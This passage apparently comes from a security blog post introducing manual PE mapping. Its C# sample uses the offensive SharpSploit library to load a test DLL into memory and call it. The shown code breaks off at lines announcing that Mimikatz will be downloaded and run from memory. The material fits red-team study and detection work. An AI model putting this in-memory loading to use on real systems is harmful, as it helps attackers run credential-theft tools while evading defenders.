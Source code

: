 We go into more detail on manual mapping in our separate blog post (available later), but here is just a sample of what you could do with the capabaility.

```csharp

using System;
using System.Runtime.InteropServices;

namespace MapTest
{
    class Program
    {

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int TestFunc();

        static void Main(string[] args)
        {
            //Test DLL project can be found at: https://github.com/FuzzySecurity/DLL-Template

            Console.WriteLine("[+] Mapping Test DLL from disk into memory!");

            Console.WriteLine("\t[+] Calling Test DLL from memory by DLLMain...\n");
            // (1) Call test DLL by DLLMain
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.ManualMap.Map.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

```